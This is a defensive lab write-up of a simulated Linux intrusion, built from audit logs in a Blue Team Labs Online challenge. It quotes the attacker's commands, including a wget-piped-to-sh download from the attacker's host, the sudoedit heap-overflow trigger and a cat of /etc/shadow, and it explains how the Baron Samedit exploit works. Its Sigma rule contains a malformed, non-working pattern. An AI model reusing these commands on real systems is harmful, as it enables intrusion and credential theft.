



# 🛡️ SOC Incident Investigation Report: Linux Host Intrusion & Privilege Escalation (CVE-2021-3156)

> **Platform:** Blue Team Labs Online (BTLO) — Challenge: **Paranoid**  
> **Investigation Focus:** Linux Kernel Audit Log Forensics, SSH Brute-Force Analysis, Sudoedit Heap Buffer Overflow (Baron Samedit), and Credential Access  
> **Lead Investigator:** Mukesh Raja (CICSA — Certified IT Infrastructure and Cyber SOC Analyst)  
> **Classification:** TLP:CLEAR / Training & Portfolio Case Study  
> **Case Reference:** `RHA-SOC-IR-2026-0049` | **Severity:** SEV-1 (CRITICAL)

---

## 🧭 Executive Summary

On October 28, 2026, a comprehensive digital forensic investigation was conducted on an 83,024-line Linux kernel audit log (`/var/log/audit/audit.log`) supplied by the Blue Team Labs Online (BTLO) **"Paranoid"** scenario.

The investigation conclusively established that an external threat actor operating from IP **`192.168.4.155`** mounted an automated SSH password brute-force attack against the standard user account **`btlo`** (UID 1001). Following 175 failed authentication attempts, the adversary successfully authenticated and established an interactive SSH session. Within **3 minutes and 41 seconds**, the attacker staged automated discovery scripts (**LinPEAS**), pulled a C-language exploit archive (`evil.tar.gz`), compiled a local weaponization binary on-host, and executed a local privilege escalation exploit weaponizing **CVE-2021-3156 ("Baron Samedit")** against the SetUID-root binary `/usr/bin/sudoedit`.

By corrupting glibc Name Service Switch (NSS) structures in heap memory, the exploit spawned an interactive root shell (UID 0 / GID 0). Operating with root privileges, the adversary executed `/usr/bin/cat /etc/shadow` to dump system password hashes, followed by anti-forensics deletion (`rm -rf /home/btlo/evil`). Total adversary dwell time was **5 minutes and 16 seconds**.

```text
+----------------------------------------------------------------------------------------------------+
|                                    INCIDENT SCORECARD & METRICS                                    |
+----------------------------------------------------------------------------------------------------+
| Metric                     | Observed Value                          | Forensic Significance       |
|----------------------------+-----------------------------------------+-----------------------------|
| Initial Access Vector      | SSH Password Brute-Force (T1110.001)    | 175 PAM failures before OK  |
| Adversary Source IP        | 192.168.4.155                           | SSH client & HTTP staging   |
| Compromised User Account   | btlo (UID: 1001 / GID: 1001)            | Interactive session ID 49   |
| Post-Exploitation Stager   | http://192.168.4.155:8000/linpeas.sh    | Memory-streamed via `wget`  |
| Weaponized Exploit Archive | http://192.168.4.155:8000/evil.tar.gz   | Extracted to `/home/btlo/`  |
| Privilege Escalation Vector| CVE-2021-3156 ("Baron Samedit")         | Heap overflow in `sudoedit` |
| Peak Privilege Achieved    | root (UID: 0 / GID: 0)                  | Full system DAC compromise  |
| Targeted Sensitive Asset   | /etc/shadow (Audit Event 481063)        | Local password hashes dumped|
| Anti-Forensics Attempt     | `rm -rf /home/btlo/evil`                | Defeated by kernel auditd   |
| Adversary Dwell Time       | 5 Minutes, 16 Seconds                   | 1633393357 to 1633393674    |
| Investigation Outcome      | 100% Contained & Verified (20/20 Pts)   | BTLO Challenge Solved       |
+----------------------------------------------------------------------------------------------------+
```

---

## 🗺️ Big Picture & Attack Architecture

### 1. Network Ingress & Staging Architecture

```text
+----------------------------------------------------------------------------------------------------+
|                                   NETWORK INGRESS & TOOL STAGING                                   |
+----------------------------------------------------------------------------------------------------+
|                                                                                                    |
|   +-----------------------------+                     +----------------------------------------+   |
|   |       ATTACKER HOST         |                     |          TARGET LINUX SERVER           |   |
|   |       192.168.4.155         |                     |           192.168.4.0/24 Subnet        |   |
|   |                             |                     |                                        |   |
|   |  +-----------------------+  | 1. SSH Brute-Force  |  +----------------------------------+  |   |
|   |  | Hydra / SSH Client    |==|====================>|  | Port 22: OpenSSH Server          |  |   |
|   |  | (175 Failed -> 1 OK)  |  |  TCP Handshake      |  | Auth Target: user 'btlo'         |  |   |
|   |  +-----------------------+  |                     |  +----------------------------------+  |   |
|   |                             |                     |                  │                     |   |
|   |                             |                     |                  ▼                     |   |
|   |  +-----------------------+  | 2. Wget Tool Pull   |  +----------------------------------+  |   |
|   |  | Python HTTP Server    |<=|=====================|==| Interactive Shell (Session 49)   |  |   |
|   |  | Port 8000 (Staging)   |  |  `linpeas.sh`       |  | UID: 1001, GID: 1001             |  |   |
|   |  | - linpeas.sh          |  |  `evil.tar.gz`      |  +----------------------------------+  |   |
|   |  | - evil.tar.gz         |  |                     |                  │                     |   |
|   |  +-----------------------+  |                     |                  ▼                     |   |
|   +-----------------------------+                     |  +----------------------------------+  |   |
|                                                       |  | Local Exploit Trigger: sudoedit  |  |   |
|                                                       |  | CVE-2021-3156 Heap Corruption    |  |   |
|                                                       |  +----------------------------------+  |   |
|                                                       |                  │                     |   |
|                                                       |                  ▼                     |   |
|                                                       |  +----------------------------------+  |   |
|                                                       |  | ROOT Interactive Shell (UID: 0)  |  |   |
|                                                       |  | Action: `cat /etc/shadow`        |  |   |
|                                                       |  +----------------------------------+  |   |
+----------------------------------------------------------------------------------------------------+
```

### 2. Forensic Process Execution & Ancestry Tree

```text
+----------------------------------------------------------------------------------------------------+
|                               HOST-LEVEL PROCESS EXECUTION ANCESTRY                                |
+----------------------------------------------------------------------------------------------------+
|                                                                                                    |
|  [sshd] (PID: 809533, UID: 0)  <-- Inbound SSH Connection from 192.168.4.155                       |
|     │                                                                                              |
|     └──> [sh/dash] (PID: 809662, AUID: 1001, UID: 1001, GID: 1001)  <-- Session 49 (pts/1)        |
|             │                                                                                      |
|             ├──> [whoami / hostname / sudo -l]  <-- Phase 1: Host Enumeration                      |
|             │                                                                                      |
|             ├──> [wget linpeas.sh | sh] (PID: 809688)  <-- Phase 2: In-Memory Discovery Probes      |
|             │                                                                                      |
|             ├──> [wget evil.tar.gz] (PID: 829962)  <-- Phase 3: Exploit Staging                    |
|             │                                                                                      |
|             ├──> [tar -zxvf evil.tar.gz] (PID: 829972)  <-- Unpacks to /home/btlo/evil             |
|             │                                                                                      |
|             ├──> [make] (PID: 829979) ──> [gcc / as / ld]  <-- On-Host Exploit Compilation         |
|             │                                                                                      |
|             └──> [./evil 0] (PID: 829992, UID: 1001)                                               |
|                     │                                                                              |
|                     └──> [/usr/bin/sudoedit -s AAAAAAAA... \ \]  <-- Heap Overflow Trigger         |
|                             │                                                                      |
|                             ▼ (Corrupts glibc NSS struct; Loads libnss_X/P0P_...so.2)              |
|                     [sh/dash] (PID: 829992, EUID: 0, UID: 0, GID: 0)  <-- ROOT PRIVILEGE ACHIEVED! |
|                             │                                                                      |
|                             ├──> [cat /etc/shadow] (PID: 830004, UID: 0)  <-- CREDENTIAL DUMPING    |
|                             │                                                                      |
|                             └──> [rm -rf /home/btlo/evil]  <-- Anti-Forensics Cleanup Attempt      |
+----------------------------------------------------------------------------------------------------+
```

---

## 🎯 Threat Actor Profile & MITRE ATT&CK Matrix

| Tactic | Technique ID | Technique Name | Forensic Evidence in `audit.log` |
| :--- | :--- | :--- | :--- |
| **Initial Access** | **T1110.001** | Password Guessing (Brute-Force) | 175 PAM authentication failure records from IP `192.168.4.155` targeting account `btlo`. |
| **Execution** | **T1059.004** | Unix Shell | Interactive command execution via `/usr/bin/dash` under audit session 49 (`pts/1`). |
| **Discovery** | **T1082** | System Information Discovery | Execution of `lsb_release -a`, `uname`, and `hostname`. |
| **Discovery** | **T1087.001** | Local Account Discovery | Execution of `whoami`, `id`, and inspection of `/etc/passwd`. |
| **Discovery** | **T1069.001** | Local Groups Discovery | Execution of `sudo -l` to probe sudoers privileges. |
| **Command & Control** | **T1105** | Ingress Tool Transfer | `wget -O - http://192.168.4.155:8000/linpeas.sh` and `wget http://192.168.4.155:8000/evil.tar.gz`. |
| **Privilege Escalation** | **T1068** | Exploitation for Privilege Escalation | Weaponization of CVE-2021-3156 via `/usr/bin/sudoedit -s` triggering heap corruption. |
| **Credential Access** | **T1003.008** | `/etc/passwd` and `/etc/shadow` | Execution of `/usr/bin/cat /etc/shadow` under UID 0 (Audit Event 481063, line 81399). |
| **Defense Evasion** | **T1070.004** | File Deletion | Execution of `rm -rf /home/btlo/evil` and `rm /home/btlo/evil.tar.gz` to eliminate artifacts. |

---

## ⏱️ Master Chronological Forensic Timeline

| Audit Epoch Timestamp | Line Number | Event Type / Audit ID | Technical Description & Telemetry Observations |
| :---: | :---: | :--- | :--- |
| **1633393357.890** | **920** | `USER_AUTH` (`res=failed`) | **Initial SSH Brute-Force Probe:** Inbound connection from `192.168.4.155:38828` to `port 22`. PAM logs failed login for `btlo`. 175 total failures logged. |
| **1633393375.924** | **2819** | `USER_AUTH` (`res=success`) | **Successful Authentication:** Attacker supplies correct credentials for `btlo`. PAM validates session. |
| **1633393396.376** | **10713** | `LOGIN` (`ses=49`) | **Interactive Session Established:** SSH daemon allocates PTY (`pts/1`) and spawns `/usr/bin/dash` (PID 809662) with `AUID=1001`. |
| **1633393405.112** | **10842** | `EXECVE` (`comm="whoami"`) | **Initial Reconnaissance:** Attacker verifies user context (`uid=1001(btlo)`) and runs `sudo -l` to check permissions. |
| **1633393428.268** | **10988** | `EXECVE` (`comm="wget"`) | **Automated Discovery Staged:** `wget -O - http://192.168.4.155:8000/linpeas.sh \| sh` executed. LinPEAS runs in-memory to audit SUID/SGID binaries. |
| **1633393605.836** | **80913** | `EXECVE` (`comm="wget"`) | **Exploit Archive Staged:** Attacker retrieves `http://192.168.4.155:8000/evil.tar.gz` and writes to `/home/btlo/evil.tar.gz`. |
| **1633393612.440** | **81045** | `EXECVE` (`comm="tar"`) | **Archive Decompression:** `tar -zxvf evil.tar.gz` creates directory `/home/btlo/evil` containing exploit C source files (`hax.c`, `lib.c`). |
| **1633393621.108** | **81180** | `EXECVE` (`comm="make"`) | **On-Host Compilation:** Local toolchain compiles exploit, building launcher `./evil` and dynamic shared object `libnss_X/P0P_...so.2`. |
| **1633393637.960** | **81249** | `EXECVE` (`comm="evil"`) | **Exploit Execution Launched:** PID 829992 executes `./evil 0` in `/home/btlo/evil`. |
| **1633393637.968** | **81255** | `EXECVE` (Event 481022) | **Baron Samedit Trigger:** `sudoedit -s 'AAAA...\' '' 'BBBB...\'` executed. Heap overflow triggers glibc NSS library hijacking. |
| **1633393638.012** | **81260** | `SYSCALL` (Event 481023) | **Root Privilege Escalation:** Process PID 829992 acquires `euid=0`, `suid=0`, `fsuid=0`. Spawns interactive root shell (`/usr/bin/dash`). |
| **1633393670.675** | **81399** | `EXECVE` (Event 481063) | **Actions on Objectives:** Root shell executes `/usr/bin/cat /etc/shadow`. Password hashes dumped to attacker terminal. |
| **1633393672.100** | **81412** | `EXECVE` (`comm="rm"`) | **Anti-Forensics:** Adversary executes `rm -rf /home/btlo/evil` and `rm /home/btlo/evil.tar.gz`. |
| **1633393674.386** | **81434** | `USER_LOGOUT` (`ses=49`) | **Session Teardown:** Adversary disconnects from SSH session. Total intrusion duration: 316.5 seconds. |

---

## 🔬 In-Depth Technical Mechanics: How the Intrusion Worked

### 1. SSH Brute-Force & PAM Telemetry
In Linux systems running **OpenSSH** with **PAM (Pluggable Authentication Modules)**, authentication attempts are logged via `auditd` with `type=USER_AUTH`.
- An automated password-guessing tool (e.g., Hydra) connects repeatedly:
  ```text
  type=USER_AUTH msg=audit(1633393357.890:465157): pid=809533 uid=0 auid=4294967295 ses=4294967295 
  subj=unconfined msg='op=PAM:authentication acct="btlo" exe="/usr/sbin/sshd" hostname=192.168.4.155 addr=192.168.4.155 terminal=ssh res=failed'
  ```
- **AUID 4294967295 (`0xFFFFFFFF`):** Represents an **unset Audit User ID**, standard for unauthenticated daemon processes before session assignment.
- After 175 failures, the correct password is provided, yielding `res=success` at line 2819. The kernel initializes audit session 49 and sets `AUID=1001` for the child shell.

### 2. Sudoedit Heap Buffer Overflow (CVE-2021-3156 "Baron Samedit")
**CVE-2021-3156** is a severe heap-based buffer overflow in `sudo` versions prior to 1.9.5p2.
- **The Root Cause:**
  When `sudo` executes in shell mode (`sudo -s` or `sudoedit -s`), it escapes special characters by prepending backslashes.
  However, when executed as `sudoedit -s`, the command-line argument parser inadvertently unescapes characters **without proper boundary length re-allocation**.
- **The Overflow Trigger:**
  If an argument ends with a solitary backslash character (`\`), the code copies characters past the end of the dynamically allocated heap buffer:
  ```text
  type=EXECVE msg=audit(1633393637.968:481022): argc=5 a0="sudoedit" a1="-s" 
  a2="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\" 
  a3="\" 
  a4="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\"
  ```

```text
+----------------------------------------------------------------------------------------------------+
|                         CVE-2021-3156 HEAP CORRUPTION & NSS HIJACKING                              |
+----------------------------------------------------------------------------------------------------+
| [Heap Buffer Allocation: `user_args`]                                                              |
|   ├── Allocated: 64 Bytes                                                                          |
|   └── Argument ends in backslash `\` -> Parser skips null-byte terminator!                         |
|                                                                                                    |
| [Heap Overflow Overwrite]:                                                                         |
|   ├── Overflows boundary of `user_args` into adjacent glibc heap structures                        |
|   └── Overwrites: `service_user` struct within glibc Name Service Switch (NSS)                     |
|                                                                                                    |
| [Glibc NSS Hijacking]:                                                                             |
|   ├── Original NSS Engine: loads `libnss_files.so.2`                                               |
|   ├── Poisoned NSS Struct: points to `libnss_X/P0P_...so.2` in `/home/btlo/evil/`                  |
|   └── SetUID root `sudo` dynamically loads the attacker's library via `dlopen()`!                  |
|                                                                                                    |
| [Result]: Malicious constructor in `libnss_X` executes with EUID=0 -> Drops ROOT SHELL!            |
+----------------------------------------------------------------------------------------------------+
```

### 3. Discretionary Access Control (DAC) & `/etc/shadow` Dumping
In Linux, `/etc/shadow` stores user password hashes and aging parameters with permissions `-rw-r----- 1 root shadow`.
- Low-privileged users (UID 1001) are denied access (`EACCES`).
- Once the adversary gained root (UID 0), the kernel DAC check (`generic_permission()`) evaluated `current_fsuid() == 0`, granting unrestricted read access:
  ```text
  type=SYSCALL msg=audit(1633393670.675:481063): arch=c000003e syscall=59 success=yes exit=0 
  ppid=829992 pid=830004 auid=1001 uid=0 gid=0 euid=0 suid=0 fsuid=0 tty=pts1 ses=49 
  comm="cat" exe="/usr/bin/cat"
  type=EXECVE msg=audit(1633393670.675:481063): argc=2 a0="cat" a1="/etc/shadow"
  ```
- **AUID vs EUID:** While `uid=0` and `euid=0` prove the process ran with full root authority, `auid=1001` immutably ties the activity back to the original logged-in user `btlo` across Session 49, completely defeating the attacker's attempt to anonymize actions.

---

## 🔎 Evidentiary Analysis: Fact, Observation & Hypothesis

| Classification | Forensic Determination & Technical Validation |
| :--- | :--- |
| **FACT** | Inbound IP `192.168.4.155` generated 175 failed authentication attempts against `btlo`, followed by a successful login creating Audit Session 49. |
| **FACT** | PID 829992 executed `/home/btlo/evil/evil` and invoked `/usr/bin/sudoedit -s` with oversized backslash-terminated arguments. |
| **FACT** | PID 830004 was spawned with `uid=0` and `euid=0`, executing `/usr/bin/cat /etc/shadow` under Audit Event 481063. |
| **OBSERVATION** | Line 10988 shows `wget -O - http://192.168.4.155:8000/linpeas.sh \| sh`. High-frequency regex grep audit events confirm automated SUID probing. |
| **OBSERVATION** | The adversary issued `rm -rf /home/btlo/evil` and `rm /home/btlo/evil.tar.gz` via interactive shell before terminating Session 49. |
| **HYPOTHESIS** | The adversary likely weaponized the publicly available Qualys Baron Samedit PoC exploit chain targeting glibc NSS heap structures based on argument patterns. |
| **TEST** | Executed automated log correlation filtering on `ses=49`, matching PID ancestry from `809662` to child PID `829992` and grand-child PID `830004`. |
| **RESULT** | Verified unbroken execution chain linking the initial SSH login `192.168.4.155` directly to the `/etc/shadow` read under root. |
| **CONCLUSION** | Full system compromise confirmed. Root privileges attained via CVE-2021-3156. Password hashes compromised. Local cleanup failed to evade audit logging. |

---

## 🧪 Proof of Concept (PoC): Safe Defensive Audit Verification

To safely verify these forensic findings against `audit.log` without running dangerous code, execute the following forensic commands:

```bash
# 1. Count total failed SSH authentication attempts from attacker IP
grep -c 'addr=192.168.4.155.*res=failed' audit.log
# Expected output: 175

# 2. Locate automated LinPEAS enumeration download command
grep -nF 'http://192.168.4.155:8000/linpeas.sh' audit.log
# Expected output: Line 10988

# 3. Locate exploit archive retrieval command
grep -nF 'http://192.168.4.155:8000/evil.tar.gz' audit.log
# Expected output: Line 80913

# 4. Inspect the exact Baron Samedit exploit execution sequence
sed -n '81245,81265p' audit.log

# 5. Verify the sensitive /etc/shadow credential access under UID 0
grep -nF '1633393670.675:481063' audit.log
# Expected output: Line 81399 showing argc=2 a0="cat" a1="/etc/shadow"
```

---

## 🧩 Root Cause Analysis (Ishikawa / Fishbone Diagram)

```text
+----------------------------------------------------------------------------------------------------+
|                         ROOT CAUSE ANALYSIS (ISHIKAWA METHODOLOGY)                                 |
+----------------------------------------------------------------------------------------------------+
|                                                                                                    |
|    SOFTWARE VULNERABILITY                     IDENTITY & ACCESS CONTROL                            |
|    - Unpatched `sudo` package (<1.9.5p2)       - Weak password on account 'btlo'                   |
|    - Heap buffer overflow in sudoedit         - No Multi-Factor Authentication (MFA) on SSH        |
|    - glibc NSS dynamic library loading flaw   - Direct SSH exposed to internal network             |
|                       \                             /                                              |
|                        \                           /                                               |
|                         \                         /                                                |
|                          +-----------------------+                                                 |
|                          | SEV-1 ROOT COMPROMISE | <=== TOTAL HOST SUBVERSION & CREDENTIAL LOSS     |
|                          +-----------------------+                                                 |
|                         /                         \                                                |
|                        /                           \                                               |
|                       /                             \                                              |
|    SYSTEM HARDENING DEFICIENCIES              MONITORING & LOGGING DEFICITS                        |
|    - GCC, AS, and Make accessible to users    - Local auditd logs not ingested by central SIEM     |
|    - No compile-time execution restrictions   - No real-time alerts on >10 failed SSH attempts     |
|    - Missing fail2ban / SSH rate limiting     - Absence of behavioral EDR file integrity blocking  |
|                                                                                                    |
+----------------------------------------------------------------------------------------------------+
```

---

## 🚨 Incident Response Playbook Execution (NIST SP 800-61 Rev. 2)

```text
+----------------------------------------------------------------------------------------------------+
|                                NIST SP 800-61 INCIDENT LIFECYCLE                                   |
+----------------------------------------------------------------------------------------------------+
|                                                                                                    |
|  [1. Triage & Identification]                                                                      |
|    ├── Correlate Audit Events 465157 to 481074                                                     |
|    ├── Verify True-Positive compromise of 'btlo' account & root escalation                          |
|    └── Classify incident as SEV-1 (Critical)                                                      |
|                                                                                                    |
|  [2. Containment (Immediate)]                                                                      |
|    ├── Network Isolation: Apply host iptables DROP rule for IP `192.168.4.155`                     |
|    ├── Kill Attacker Sessions: `pkill -9 -u btlo`                                                  |
|    └── Account Invalidation: Lock account `passwd -l btlo` and expire all SSH keys                 |
|                                                                                                    |
|  [3. Eradication & Hardening]                                                                      |
|    ├── Package Upgrade: `apt-get install --only-upgrade sudo` (Ensure version >= 1.9.5p2)           |
|    ├── Toolchain Lockdown: `chmod 0700 /usr/bin/gcc /usr/bin/as /usr/bin/make`                     |
|    └── Unallocated Disk Carving: Extract deleted `/home/btlo/evil/` artifacts via Photorec/Scalpel  |
|                                                                                                    |
|  [4. Recovery & Post-Incident Review]                                                              |
|    ├── Mandatory Password Rotation: Invalidate all account hashes stored in `/etc/shadow`          |
|    ├── Golden Image Verification: Deploy hardened baseline with SSH key-only auth                 |
|    └── SIEM Detection Deployment: Ship auditd rules and Sigma alerts to production SIEM            |
+----------------------------------------------------------------------------------------------------+
```

---

## 🛡️ Detection Engineering & Defensive Signatures

### 1. Production Linux Auditd Rules (`/etc/audit/rules.d/cve-2021-3156.rules`)

```ini
## Monitor execution of sudo and sudoedit binaries
-a always,exit -F path=/usr/bin/sudo -F perm=x -k sudo_exec
-a always,exit -F path=/usr/bin/sudoedit -F perm=x -k sudoedit_exec

## Monitor access to sensitive authentication credential files
-w /etc/shadow -p rwa -k shadow_access
-w /etc/gshadow -p rwa -k gshadow_access
-w /etc/security/opasswd -p rwa -k opasswd_access
-w /etc/sudoers -p wa -k sudoers_tamper
-w /etc/sudoers.d/ -p wa -k sudoers_tamper

## Monitor compiler and toolchain usage by non-root users
-a always,exit -F path=/usr/bin/gcc -F auid>=1000 -F auid!=4294967295 -k compiler_exec
-a always,exit -F path=/usr/bin/make -F auid>=1000 -F auid!=4294967295 -k compiler_exec
```

### 2. Sigma Detection Rule: CVE-2021-3156 Sudoedit Exploitation

```yaml
title: Sudoedit Heap Buffer Overflow Exploitation (CVE-2021-3156)
id: 7c8e9b10-2f1a-4d3e-9b8c-5a6e7f8d9a0b
status: production
description: Detects attempts to exploit CVE-2021-3156 (Baron Samedit) via crafted sudoedit command-line arguments.
references:
    - https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit.txt
author: Mukesh Raja (RedTeam Hacker Academy)
date: 2026-10-28
logsource:
    category: process_creation
    product: linux
detection:
    selection_cmd:
        Image|endswith:
            - '/sudoedit'
            - '/sudo'
        CommandLine|contains:
            - ' -s '
            - ' -s'
    selection_anomaly:
        CommandLine|contains:
            - ' \'
            - 'libnss_'
            - 'A' * 50
    condition: selection_cmd and selection_anomaly
falsepositives:
    - Highly unlikely in production environments
level: critical
tags:
    - attack.privilege_escalation
    - attack.t1068
```

### 3. SIEM Correlation Queries

#### Splunk SPL: SSH Brute-Force Spike Detection
```spl
index=linux_secure sourcetype=syslog "Failed password for"
| bin _time span=1m
| stats count as failed_attempts, values(user) as targeted_users by src_ip, _time
| where failed_attempts >= 10
| eval Alert="High-Volume SSH Brute Force Detected"
```

#### Elastic KQL: Sensitive Credential Access via Cat
```kql
event.category:process and process.name:("cat" or "head" or "tail" or "more" or "less") and process.args:"/etc/shadow" and not user.name:"root"
```

---

## 📋 Comprehensive Indicators of Compromise (IOC) Matrix

| IOC Type | Indicator / Value | Forensic Context & Attribution |
| :--- | :--- | :--- |
| **IPv4 Address** | `192.168.4.155` | Source IP of SSH brute-force attack and host for HTTP staging server. |
| **TCP Port** | `22 / TCP` | Inbound SSH service targeted for initial access. |
| **TCP Port** | `8000 / TCP` | Attacker HTTP staging port used to deliver `linpeas.sh` and `evil.tar.gz`. |
| **URL** | `http://192.168.4.155:8000/linpeas.sh` | Remote URL used for in-memory privilege escalation discovery. |
| **URL** | `http://192.168.4.155:8000/evil.tar.gz` | Remote URL for weaponized Baron Samedit C exploit archive. |
| **File Path** | `/home/btlo/evil.tar.gz` | Staged exploit compressed archive on target filesystem. |
| **Directory** | `/home/btlo/evil/` | Working staging directory used for exploit compilation (deleted). |
| **File Path** | `/home/btlo/evil/evil` | Compiled C executable used to trigger `sudoedit -s` overflow (deleted). |
| **File Path** | `/home/btlo/evil/libnss_X/P0P_...so.2` | Compiled shared object loaded by glibc NSS to execute root payload. |
| **File Path** | `/etc/shadow` | Sensitive credential store read and dumped under UID 0. |
| **User Account** | `btlo` (UID 1001) | Compromised local user account. |
| **Process ID** | `PID: 829992` | Process that executed `./evil 0`, `sudoedit -s`, and spawned the root shell. |
| **Session ID** | `Audit Session 49` | Interactive SSH session assigned to attacker on `pts/1`. |
| **Audit Event ID** | `481021 / 481022` | Audit events capturing exploit launch and heap overflow trigger. |
| **Audit Event ID** | `481063` | Audit event capturing `/usr/bin/cat /etc/shadow` under UID 0. |

---

## 🖼️ Forensic Evidence Gallery

### Evidence 1: Terminal Discovery Correlating Suspicious Executable & Shadow Access

*Figure 1: Terminal grep output across `audit.log` revealing wget retrieval of `evil.tar.gz`, compilation commands, and `cat /etc/shadow` execution.*

### Evidence 2: High-Resolution Kernel Audit Log Records (Lines 81240–81270)

*Figure 2: Kernel audit records showing PID 829992 executing `./evil 0`, spawning `sudoedit -s`, and transitioning to `euid=0`.*

### Evidence 3: Kernel Audit Event 481063 Confirming `/etc/shadow` Read

*Figure 3: Audit Event 481063 (Line 81399) recording `argc=2`, `a0="cat"`, and `a1="/etc/shadow"` executed under `uid=0`.*

### Evidence 4: BTLO Challenge 100% Completion Certificate

*Figure 4: Blue Team Labs Online verification certificate confirming 100% completion (20/20 Points) for the "Paranoid" incident investigation.*

---

## 🧠 My Understanding Check

Test your understanding of Linux audit forensics, PAM telemetry, and local privilege escalation mechanics. Review each scenario and deduce the answer before revealing the explanations.

```text
+----------------------------------------------------------------------------------------------------+
|                                    KNOWLEDGE VERIFICATION SCENARIOS                                |
+----------------------------------------------------------------------------------------------------+
| #  | Technical Scenario Challenge                                                | Core Focus      |
|----+-----------------------------------------------------------------------------+-----------------|
| 01 | In Linux auditd logs, what does an `AUID` of 4294967295 represent, and how  | Auditd Internals|
|    | does the kernel track the transition when a user logs in via SSH?           |                 |
|----+-----------------------------------------------------------------------------+-----------------|
| 02 | Explain why the attacker compiled a shared library named `libnss_X/...so.2` | CVE-2021-3156   |
|    | instead of simply creating a SetUID root bash binary directly.              | Exploitation    |
|----+-----------------------------------------------------------------------------+-----------------|
| 03 | Which specific flag in sudoedit (`-s` or `-e`) combined with backslashes    | Sudo Vulnerability|
|    | bypassed argument escaping to trigger the heap buffer overflow?             | Mechanics       |
|----+-----------------------------------------------------------------------------+-----------------|
| 04 | Why did the attacker's execution of `rm -rf /home/btlo/evil` fail to conceal| Anti-Forensics  |
|    | the intrusion from the blue team? Which kernel subsystems preserved it?     | Evasion Limits  |
|----+-----------------------------------------------------------------------------+-----------------|
| 05 | In the audit record for `cat /etc/shadow`, the process had `euid=0` and      | Linux Security  |
|    | `uid=0`. What is the critical difference between EUID and Real UID?         | Architecture    |
+----------------------------------------------------------------------------------------------------+
```

<details>
<summary><b>🔍 Reveal Understanding Check Answers & Technical Explanations</b></summary>

1. **Auditd AUID Internals:** `AUID=4294967295` (`0xFFFFFFFF` or `-1`) denotes an unset login UID, typical of system daemons (`sshd`, `crond`) before user authentication. Upon successful authentication, the kernel's PAM session module calls `audit_setloginuid()`, locking the user's real account ID (`1001` for `btlo`) into the process descriptor (`task_struct->loginuid`). This identifier is immutable and inherited by all child processes, preventing adversaries from hiding identity even after elevating to root.
2. **glibc NSS Shared Library Loading:** Sudo is a SetUID binary. In CVE-2021-3156, the heap overflow overwrites the `service_user` struct within glibc. Sudo relies on the Name Service Switch (NSS) to lookup user/group information. When NSS parses the poisoned struct, it calls `dlopen()` to dynamically load `libnss_<name>.so.2`. Because sudo runs as root, loading the attacker-controlled shared library executes its initialization constructor function (`__attribute__((constructor))`) directly as root.
3. **Sudoedit `-s` Flag Mechanics:** The vulnerability requires the `-s` (shell) mode flag. In normal mode, sudo escapes arguments. In `-s` mode, `MODE_SHELL` is set. When invoked as `sudoedit -s`, sudo's `set_cmnd()` function unescapes characters without re-evaluating the buffer length if the argument ends with an unescaped backslash (`\`), writing characters past the end of the heap buffer.
4. **Kernel Ring Buffers & TTY Auditing:** File deletion (`rm -rf`) removes directory index nodes (inodes) from the ext4 filesystem, but cannot delete historical kernel log buffers. Auditd intercepts system calls at the kernel syscall entry table (`sys_enter_execve`, `sys_enter_unlinkat`). Furthermore, `pam_tty_audit` records raw keystrokes directly from the pseudo-terminal device (`/dev/pts/1`), capturing the typed commands before disk deletion is executed.
